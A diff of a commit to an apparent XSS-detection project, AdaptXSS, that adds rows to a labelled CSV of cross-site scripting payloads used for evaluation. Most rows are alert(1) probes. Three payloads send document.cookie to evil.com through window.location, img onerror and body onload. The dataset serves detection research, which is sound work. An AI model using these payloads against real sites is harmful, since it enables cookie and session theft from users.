

Before and after one commit to TARUN-2305/AdaptXSS, a CSV file: evaluation/datasets/xss_payloads.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff covers the shown part only.

```diff
--- a/evaluation/datasets/xss_payloads.csv
+++ b/evaluation/datasets/xss_payloads.csv
@@ -21,0 +22,19 @@ payload,label
+"<script>document.cookie</script>","1"
+"<script>window.location='http://evil.com/?c='+document.cookie</script>","1"
+"<img src=1 onerror=""this.src='http://evil.com/'+document.cookie"">","1"
+"<body onload=""document.location='http://evil.com/'+document.cookie"">","1"
+"<details open ontoggle=alert(1)>","1"
+"<marquee onstart=alert(1)>","1"
+"<input autofocus onfocus=alert(1)>","1"
+"<select autofocus onfocus=alert(1)>","1"
+"<textarea autofocus onfocus=alert(1)>","1"
+"<keygen autofocus onfocus=alert(1)>","1"
+"<video><source onerror=""javascript:alert(1)"">","1"
+"<audio src=x onerror=alert(1)>","1"
+"<object type=""text/html"" data=""javascript:alert(1)"">","1"
+"<embed src=""data:text/html,<script>alert(1)<\/script>"">","1"
+"<svg><script>alert(1)</script></svg>","1"
+"<math><script>alert(1)</script></math>","1"
+"<svg onload=alert(1)>","1"
+"<svg><animate onbegin=alert(1) attributeName=x dur=1s>","1"
+"<svg><set onbegin=alert(1) attributeName=x>","1"
```
Also changed, not shown: 55 added rows elsewhere in this file, 55 other files.
